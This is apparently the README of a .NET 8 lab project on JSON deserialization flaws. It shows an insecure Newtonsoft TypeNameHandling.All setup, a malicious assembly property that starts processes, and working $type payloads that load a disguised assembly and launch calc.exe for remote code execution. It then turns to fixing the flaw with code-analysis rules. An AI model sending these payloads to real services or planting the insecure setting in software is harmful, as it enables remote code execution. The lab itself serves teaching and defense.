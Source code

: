# .NET 8 Serialization Vulnerability

Exploiting JSON serialization vulnerabilities in .NET is more challenging than in the .NET Framework. The .NET Framework gadget chains exploited by [ysoserial.net](https://github.com/pwntester/ysoserial.net) have been remediated in .NET. 

This exploit requires setting _TypeNameHandling_ to _TypeNameHandling.All_. System.Text.Json does not natively allow type names to be included in serialized messages and is recommended. Further, with .NET 6+ it is not possible to override the default JSON serializer from System.Text.Json when using minimal APIs. See [Minimal APIs quick reference](https://learn.microsoft.com/en-us/aspnet/core/fundamentals/minimal-apis?view=aspnetcore-6.0#configure-json-deserialization-options-for-body-binding).

``` C#
builder.Services.AddControllers().AddNewtonsoftJson(
    options =>
    {
        options.SerializerSettings.TypeNameHandling = TypeNameHandling.All;
        options.SerializerSettings.ReferenceLoopHandling = ReferenceLoopHandling.Ignore;
    });
```

The MaliciousAssembly project includes a property that launches a process using the value of the property:

``` C#
using System.Diagnostics;
. . .
public string ProcessLaunch
{
    get
    {
        return processName;
    }
    set
    {
        processName = value;
        Process.Start(value);
    }
}
```

The build process copies the MaliciousAssembly to the bin directory of the Todo API as _someimage.png_. This simulates an insecure file upload process. Which can be exploited through the _Metadata_ property of the _TodoItem_.

``` C#
public class TodoItem
{
    public long Id { get; set; }
    public string? Name { get; set; }
    public bool IsComplete { get; set; }

    public Dictionary<string, object>? Metadata { get; set;}
}

```

This can be exploited using the following message:

``` JSON
{
  "name": "walk dog1",
  "isComplete": true,
  "metadata":
    {
        "data2": {
		   "$type": "System.IO.FileInfo, System.IO.FileSystem",
		   "fileName": "rce-test.txt"
	     }
    }
}
```
## Load the malicious file

The first REST API call loads the malicious file using:

``` JSON
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "load assembly",
  "isComplete": true,
  "metadata":
    {
        "data2":  {"$type":"System.Configuration.Install.AssemblyInstaller, 
            System.Configuration.Install",
            "Path":"someimage.png"}
    }
}
```
The _Path_ is local; however, in a production environment, it could be loaded from a temporary directory or another local directory.

## Invoke the Malicious Property

Now that the Assembly is in the AppDomain, the ProcessLaunch property can be invoked:

``` JSON 
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "launch calc",
  "isComplete": true,
  "metadata":
    {
        "launchdata":  
           { "$type":"MaliciousAssembly.ProcessStarter, MaliciousAssembly",
             "ProcessLaunch":"calc.exe" }
    }
}
```

These calls are available in the _requests.http_ file. Running these examples in Visual Studio Code requires the [REST Client](https://marketplace.visualstudio.com/items?itemName=humao.rest-client) extension.

## Code Analysis Rules

Code Analysis Rules can be used to identify common security vulnerabilities and other issues. For more information, see [roslyn-analyzers](https://github.com/dotnet/roslyn-analyzers#microsoftcodeanalysisnetanalyzers).

1. Install the latest released [Microsoft.CodeAnalysis.NetAnalyzers](https://www.nuget.org/packages/Microsoft.CodeAnalysis.NetAnalyzers) Nuget package in the TodoApi.

1. Open File Explorer and navigate to the .nuget installation directory and review the folders under: 
    ```
    %USERPROFILE%\.nuget\packages\microsoft.codeanalysis.netanalyzers\8.0.0\editorconfig
    ```
1. Copy the `.editorconfig` file in the `AllRulesDefault` folder to the solution folder. This is the same folder that contains the `.NET8-JsonVulnerabilties.sln` file. The `SecurityRulesEnabled\.editorconfig` folder includes security rules set to warning and all others set to none. Default rules includes security rules set to 

1. In Visual Studio, right-click on the `Solution Items` folder and select `Add | Existing Item...`. Add the `.editorconfig` file from the solution root directory.

1. Rebuild and observe the Warning messages returned in the 

    ![Observe Warnings](./images/serialization01.png "Observe Warnings")

1. Warnings alert us to the issue, but they don't block the build. To prevent the Newtonsoft.Json security vulnerability, change the severity level to Error. Double-click the `.editorconfig` file, select the `Analyzers` tab. Search for `TypeName`. This is enough to find the `TypeNameResolver`. Change the Warning to Error. Save the `.editorconfig`.

    ![Warnings to Errors](./images/serialization02.png "Warnings to Errors")

1. Attempt to rebuild the solution. Observe that rebuilding fails with four errors.

1. Resolve the TypeNameResolver error in the Todo API project by commenting out line 11 in Program.cs in the Todo API project which applies the `TypeNameHandling.All` value. Observe that three security code analysis errors remain.

    ``` C#
    builder.Services.AddControllers().AddNewtonsoftJson(
    options =>
    {
        // options.SerializerSettings.TypeNameHandling = TypeNameHandling.All;
        options.SerializerSettings.ReferenceLoopHandling = ReferenceLoopHandling.Ignore;
    });
    ```

1. In the JsonDeserialization.cs file in the RCESerialization.Test project, apply the following attribute to the test class. Observe that no code analysis errors remain.

    ```C#
    namespace SerializationRCE
    {

    [System.Diagnostics.CodeAnalysis.SuppressMessage("Security", "CA2326:Do not use TypeNameHandling values other than None", Justification = "Test class. This is not production code.")]
    public class JsonDeserialization
    ```


